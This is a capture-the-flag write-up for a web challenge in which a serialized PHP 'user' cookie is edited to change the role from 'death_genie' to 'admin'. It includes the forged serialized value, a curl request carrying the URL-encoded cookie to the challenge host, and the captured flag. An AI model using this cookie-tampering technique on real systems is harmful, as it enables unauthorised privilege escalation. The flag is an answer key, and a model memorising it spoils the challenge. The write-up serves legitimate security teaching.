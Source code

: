 # Yagami's Portfolio (400 points / 34 solves)

Ryuk has prohibited you from being able to view Light Yagami's Portfolio. To be able to do so, you need to have admin capabilities. You think you can figure out a workaround? Be careful...Its Ryuk we're talking about. He won't let you view any sort of information related to Light Yagami unless you are worthy. Prove your mettle and bypass his through his security checks. Should you be able to view Yagami's Portfolio, then I assure you, you will be very well rewarded and your efforts will not go in vain. All the very best!!

Ryuk is guarding the access to Yagami's Portfolio here at:

http://chall.ycfteam.in:4095/

## Overview

The challenge involves bypassing access controls set by Ryuk to view Light Yagami's portfolio. When accessing the provided URL, the server redirects to a denied.php page, indicating restricted access based on user roles. The goal is to manipulate the session or cookies to gain admin privileges and bypass the restrictions.

## Vulnerability

The web application uses a cookie to track user roles, specifically through the `user` cookie, which stores serialized PHP objects. By modifying the `role` field in the serialized `user` object from `death_genie` to `admin`, it is possible to escalate privileges and gain access to restricted pages.

## Solve

1) Initial Access: Visiting the challenge URL (http://chall.ycfteam.in:4095/) results in an immediate redirection to /denied.php.
2) Cookie Analysis: The browser stores a user cookie with serialized data:

`O:4:"User":2:{s:10:"\0User\0role";s:11:"death_genie";s:4:"name";s:4:"ryuk";}`

The role field contains death_genie, which likely has restricted access.

3) Cookie Modification: The cookie is modified, changing the role from death_genie to admin:

`O:4:"User":2:{s:10:"\0User\0role";s:5:"admin";s:4:"name";s:4:"ryuk";}`

After URL encoding the modified cookie, we can send a curl request to the `/profile.php` endpoint:

`curl -i -b "PHPSESSID=29deb9c444ba74d75272ebae3733a80c; user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A10%3A%22%00User%00role%22%3Bs%3A5%3A%22admin%22%3Bs%3A4%3A%22name%22%3Bs%3A4%3A%22ryuk%22%3B%7D" http://chall.ycfteam.in:4095/profile.php
`

`BsidesDehradun{n0t-s0_53cur3_53r1aliz4t10N_eH!}`
